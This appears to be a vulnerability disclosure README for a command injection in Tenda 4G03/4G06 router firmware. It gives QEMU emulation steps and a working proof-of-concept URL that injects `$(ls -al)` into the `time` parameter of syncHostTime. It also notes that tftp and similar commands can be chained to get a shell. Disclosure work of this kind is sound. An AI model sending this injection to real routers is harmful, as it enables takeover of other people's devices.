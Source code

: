 # tenda_4g03-4g06_vuln
vuln__firm_version 
4g03 <= V16.03.07.21_multi
4g03 <= V16.03.07.21_multi

# Vulnerability Reproduction
Firmware example ：
https://down.tendacn.com/uploadfile/4G03/US_4G03V1.0re_V16.03.07.21_multi_TDE01.zip

## system emulate:
## Host
sudo brctl addbr br0
sudo ifconfig br0 192.168.1.137/24 up
sudo tunctl -t tap0
sudo ifconfig tap0 192.168.1.138/24 up
sudo brctl addif br0 tap0

## Guest
ip link add br0 type dummy
ifconfig eth0 192.168.1.139/24 up
ifconfig br0 192.168.1.140/24 up

## Mount file system
mount -o bind /dev ./squashfs-root/dev/
mount -t proc /proc/ ./squashfs-root/proc/
chroot squashfs-root /bin/sh

# Emulation
sudo qemu-system-mipsel -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -netdev tap,id=tapnet,ifname=tap0,script=no -device rtl8139,netdev=tapnet -nographic

# Vulnerability information
![image](https://github.com/user-attachments/assets/33559806-3b51-4215-96f5-0ccb4eee08cd)

Pass the URL parameters to var, control var, and then execute the corresponding system function through doSystemCmd.

## after emulate successed
run ./bin/httpd 

![image](https://github.com/user-attachments/assets/7a584e9a-0ac2-4bf9-9d61-6ed739434c99)

## browser access
http://192.168.1.140/goform/syncHostTime/js/libs/reasy-ui-1.0.3.js?time=$(ls%20-al)
you can see it in the simulation terminal
![image](https://github.com/user-attachments/assets/725fa838-9d72-4f69-a5a9-9c2b105b3754)

After testing, not only can execute 'ls'. Can also execute 'echo', 'cat', 'tftp' and other commands that can be used to construct payloads to obtain shell commands
